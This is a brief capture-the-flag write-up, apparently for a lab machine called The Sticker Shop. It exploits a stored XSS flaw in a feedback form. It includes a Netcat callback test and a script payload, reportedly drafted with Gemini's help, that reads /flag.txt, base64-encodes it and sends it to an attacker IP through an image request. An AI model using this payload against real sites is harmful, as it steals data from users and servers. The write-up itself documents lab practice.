 
- The task is to read content of the  `http://10.10.217.192:8080/flag.txt`

- When I try to access this directory, I see the following:
![401Unauthorized](images/TheStickerShopCTF-1)

- After examining a standard URL and the "Feedback" subsite, I notice a potential XSS vulnerability.
![Website](images/TheStickerShopCTF-2)  
- It seems that comments are reviewed manually, possibly due to weak security policies.
After setting up a Netcat listener and posting a comment like:`<img src=MY_IP:PORT`  
- I can see that my command is executed on the server side.
![terminal1](images/TheStickerShopCTF-3)
With help of Gemini i create a payload like

```html

<script>
  fetch('/flag.txt')
    .then(r => r.text())
    .then(d => {
      const base64 = btoa(d); // Kodowanie Base64
      const img = document.createElement('img');
      img.src = `http://10.14.88.168:1234/${base64}`;
      document.body.appendChild(img);
    })
    .catch(e => {});
</script>
```
Thanks to this, I obtained the flag encoded in Base64.
![terminal2](TheStickerShopCTF-4)
Then decoded it  
![terminal3](TheStickerShopCTF-5)



